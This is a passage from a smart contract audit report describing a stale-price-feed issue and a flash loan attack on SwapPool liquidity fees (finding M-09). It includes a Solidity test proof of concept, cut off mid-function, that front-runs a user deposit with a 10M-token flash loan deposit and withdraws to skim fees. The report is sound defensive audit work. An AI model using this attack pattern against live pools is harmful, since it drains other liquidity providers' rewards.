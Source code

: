 As shown above, `_updatePriceFeeds()` is called with the user-supplied `_priceUpdateData` array. The protocol assumes that users will always provide valid price feed data, but malicious users can exploit this assumption. They can pass irrelevant token data to `_updatePriceFeeds()`, effectively using stale prices as long as they are within the `priceMaxAge` limit.

For instance, if a swap pool asset is a highly volatile token whose price fluctuates within a minute, an attacker could exploit this by calling `redeemCrossSwapPoolShares()` without updating the price feeds, thus receiving the token at a discount.

## Recommendations

Implement a standard function to compute a `_priceUpdateData` array for a specific asset to ensure that price feeds are consistently updated.

# [M-09] SwapPool's are vulnerable to flashloan attacks

## Severity

**Impact:** High

**Likelihood:** Low

## Description

SwapPool allows users to provide liquidity (LP) and earn fees. However, the ability for liquidity providers to deposit and withdraw within the same block makes the system vulnerable to flash loan attacks, which can exploit other LPs' rewards. A malicious user can front-run a legitimate deposit with a flash loan deposit and then back-run it with a withdrawal in the same block, effectively siphoning a portion of the LP fees. Below is a proof-of-concept demonstrating the attack:

```solidity
    function testFlahloan()
        public
        changeSwapPoolCoverageTo(pool, 0.3e18)
    {
        uint256 _accumulatedSlippageInitial = pool.reserveWithSlippage() -
            pool.reserve();

        // attacker frontrun the user deposit with 10m flashloan
        address attacker = makeAddr("attacker");
        uint256 flashloan = 10_000_000 ether;

        vm.startPrank(attacker);
        asset.approve(address(pool), MAX_UINT256);
        asset.mint(attacker, flashloan);
        (uint256 _lpTokens,) = pool.deposit(flashloan, 0, block.timestamp + USER_DEADLINE_TOLERANCE);
        vm.stopPrank();

        // user deposit 100k assets to the pool
        pool.deposit(
            100_000 ether,
            0,
            block.timestamp + USER_DEADLINE_TOLERANCE
        );

        // the attacker withdraw his shares and rip 0.01193665464548911 assets
        vm.prank(attacker);
        pool.withdraw(
            _lpTokens,
            flashloan,
            block.timestamp + USER_DEADLINE_TOLERANCE
        );
```